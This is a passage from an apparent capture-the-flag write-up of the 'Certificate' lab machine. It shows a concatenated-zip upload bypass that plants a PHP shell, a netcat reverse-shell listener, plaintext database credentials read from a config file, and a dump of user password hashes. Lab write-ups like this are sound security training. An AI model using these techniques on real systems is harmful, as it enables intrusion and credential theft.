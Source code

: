 Now we create a pdf file and zip it.

```bash
┌──(kali㉿kali)-[~/Downloads/certificate]
└─$ echo "hh" > fake.pdf
                                                                                                                                                             
┌──(kali㉿kali)-[~/Downloads/certificate]
└─$ zip fake.zip fake.pdf               
  adding: fake.pdf (stored 0%)

```

Last thing to do is combining both the zipped file to get the final result and upload it.

```bash
┌──(kali㉿kali)-[~/Downloads/certificate]
└─$ cat fake.zip malicious.zip > combined.zip
           
```

Going to the url which gonna be this one

“http://certificate.htb/static/uploads/761998a043d56a52bd3f46a3bda61273/malicious/shell.php”

I got a reverse shell!!! Let’s gooo!!

```bash
┌──(kali㉿kali)-[~/Downloads/certificate]
└─$ nc -lvnp 4444
listening on [any] 4444 ...

PS C:\xampp\htdocs\certificate.htb\static\uploads\761998a043d56a52bd3f46a3bda61273\malicious>type C:\xampp\htdocs\certificate.htb\db.php
<?php
// Database connection using PDO
try {
    $dsn = 'mysql:host=localhost;dbname=Certificate_WEBAPP_DB;charset=utf8mb4';
    $db_user = 'certificate_webapp_user'; // Change to your DB username
    $db_passwd = 'cert!f!c@teDBPWD'; // Change to your DB password
    $options = [
        PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
        PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
    ];
    $pdo = new PDO($dsn, $db_user, $db_passwd, $options);
} catch (PDOException $e) {
    die('Database connection failed: ' . $e->getMessage());
}
?>

```

Now that we found credentials for mysql database that is accessiable online internally. I just connected to the database and dumped the users with their hashes.

```bash
PS C:\xampp\htdocs\certificate.htb> cd C:\xampp\mysql\bin
PS C:\xampp\mysql\bin> .\mysql.exe -u certificate_webapp_user -p"cert!f!c@teDBPWD" certificate_webapp_db -e "SELECT * FROM users;"
id      first_name      last_name       username        email   password        created_at      role    is_active
1       Lorra   Armessa Lorra.AAA       lorra.aaa@certificate.htb       $2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFG    2024-12-23 12:43:10 teacher  1
6       Sara    Laracrof        Sara1200        sara1200@gmail.com      $2y$04$pgTOAkSnYMQoILmL6MRXLOOfFlZUPR4lAD2kvWZj.i/dyvXNSqCkK    2024-12-23 12:47:11 teacher  1
7       John    Wood    Johney  johny009@mail.com       $2y$04$VaUEcSd6p5NnpgwnHyh8zey13zo/hL7jfQd9U.PGyEW3yqBf.IxRq    2024-12-23 13:18:18     student 1
8       Havok   Watterson       havokww havokww@hotmail.com     $2y$04$XSXoFSfcMoS5Zp8ojTeUSOj6ENEun6oWM93mvRQgvaBufba5I5nti    2024-12-24 09:08:04     teacher      1
```